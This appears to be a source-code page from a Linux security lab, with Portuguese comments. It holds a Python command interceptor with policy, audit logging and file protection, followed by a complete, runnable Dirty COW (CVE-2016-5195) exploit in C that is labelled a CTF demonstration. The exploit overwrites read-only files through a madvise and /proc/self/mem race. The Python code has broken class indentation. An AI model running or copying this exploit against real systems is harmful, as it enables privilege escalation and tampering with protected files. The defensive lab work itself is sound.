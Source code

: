     # command_interceptor.py
    #!/usr/bin/env python3
    import os
    import subprocess
    from logger import AuditLogger
    from file_protector import FileProtector
    from policy_engine import PolicyEngine

    class CommandInterceptor:
    """
    Intercepta a execução de comandos privilegiados.
    """
    def __init__(self, policy_engine=None, logger=None, file_protector=None):
        self.policy_engine = policy_engine or PolicyEngine()
        self.logger = logger or AuditLogger()
        self.file_protector = file_protector or FileProtector()
        
    def intercept(self, command, args):
        user = os.getenv('USER') or 'unknown'
        # Verificação de políticas
        if not self.policy_engine.is_command_allowed(user, command, args):
            self.logger.log(user, command, args, 'DENIED')
            print(f'Comando {command} negado pela política.')
            return 1
        # Verificação de ficheiros protegidos
        for arg in args:
            if self.file_protector.is_protected(arg):
                self.logger.log(user, command, args, 'DENIED')
                print(f'O acesso ao ficheiro {arg} está protegido.')
                return 1
        # Execução do comando
        try:
            resultado = subprocess.run(
                [command] + args,
                check=True,
                capture_output=True,
                text=True
            )
            self.logger.log(user, command, args, 'SUCCESS')
            print(resultado.stdout)
            return 0
        except subprocess.CalledProcessError as e:
            self.logger.log(user, command, args, f'ERROR_{e.returncode}')
            print(e.stderr)

            # logger.py
    #!/usr/bin/env python3
    import logging
    
    class AuditLogger:
    """
    Regista todas as tentativas de execução de comandos privilegiados.
    """
    def __init__(self, logfile='/var/log/tef_audit.log'):
        logging.basicConfig(
            filename=logfile,
            level=logging.INFO,
            format='%(asctime)s %(message)s'
        )
        self.logger = logging.getLogger('TEF')
    def log(self, user, command, args, result):
        """
        Regista no ficheiro de log o utilizador, comando, argumentos e resultado.
        """
        self.logger.info(f'User={user} CMD={command} ARGS={args} RESULT={result}')



        # file_protector.py
    #!/usr/bin/env python3
    import os

    class FileProtector:
    """
    Define ficheiros com restrições específicas.
    """
    def __init__(self, protected_paths=None):
        # Lista de caminhos absolutos protegidos
        self.protected_paths = protected_paths or ['/opt/confidencial']
    def is_protected(self, path):
        abs_path = os.path.abspath(path)
        return abs_path in self.protected_paths

        # policy_engine.py
    #!/usr/bin/env python3

    class PolicyEngine:
    """
    Aplica as políticas definidas no ficheiro de configuração.
    """
    def __init__(self, config_file='/etc/tef_policy.conf'):
        self.policies = self.load_policies(config_file)
    def load_policies(self, config_file):
        policies = {}
        try:
            with open(config_file) as f:
                for line in f:
                    line = line.strip()
                    if line and not line.startswith('#'):
                        cmd, rule = line.split('=')
                        policies[cmd.strip()] = rule.strip()
        except FileNotFoundError:
            pass
        return policies

    def is_command_allowed(self, user, command, args):
        # Se existir uma entrada "comando=deny", nega automaticamente
        if command in self.policies and self.policies[command] == 'deny':
            return False
        return True

        # tef_model.py
    #!/usr/bin/env python3
    import sys
    from logger import AuditLogger
    from file_protector import FileProtector
    from policy_engine import PolicyEngine
    from command_interceptor import CommandInterceptor
    
    class TEFModel:
    """
    Fábrica do modelo TEF: junta todos os componentes e executa o interceptor.
    """
    def __init__(self):
        self.logger = AuditLogger()
        self.file_protector = FileProtector()
        self.policy_engine = PolicyEngine()
        self.interceptor = CommandInterceptor(
            policy_engine=self.policy_engine,
            logger=self.logger,
            file_protector=self.file_protector
        )
    def run(self):
        if len(sys.argv) < 2:
            print('Uso: tef_model.py <comando> [args...]')
            exit(1)
        command = sys.argv[1]
        args = sys.argv[2:]
        exit(self.interceptor.intercept(command, args))

    if __name__ == '__main__':
        TEFModel().run()


        // Dirty COW (CVE-2016-5195) minimal exploit
// Versão usada em CTFs para demonstração controlada
// Autor original: Phil Oester / Dirty COW PoC adaptado

    #include <fcntl.h>
    #include <pthread.h>
    #include <string.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/mman.h>
    #include <sys/stat.h>
    
    void *map;
    int f;
    struct stat st;
    char *file;
    char *payload;

    void *madviseThread(void *arg) {
    for (int i = 0; i < 1000000; i++)
        madvise(map, st.st_size, MADV_DONTNEED);
    return NULL;
    }

    void *writeThread(void *arg) {
    int mem = open("/proc/self/mem", O_RDWR);
    for (int i = 0; i < 1000000; i++) {
        lseek(mem, (off_t)map, SEEK_SET);
        write(mem, payload, strlen(payload));
    }
    return NULL;
    }

    int main(int argc, char *argv[]) {
    if (argc < 3) {
        printf("Uso: %s <ficheiro> <texto_novo>\n", argv[0]);
        return 1;
    }
    file = argv[1];
    payload = argv[2];

    f = open(file, O_RDONLY);
    if (f < 0) {
        perror("open");
        return 1;
    }

    fstat(f, &st);
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

    pthread_t p1, p2;
    pthread_create(&p1, NULL, madviseThread, NULL);
    pthread_create(&p2, NULL, writeThread, NULL);

    pthread_join(p1, NULL);
    pthread_join(p2, NULL);

    printf("Exploit executado! Verifica o ficheiro %s.\n", file);
    return 0;
}








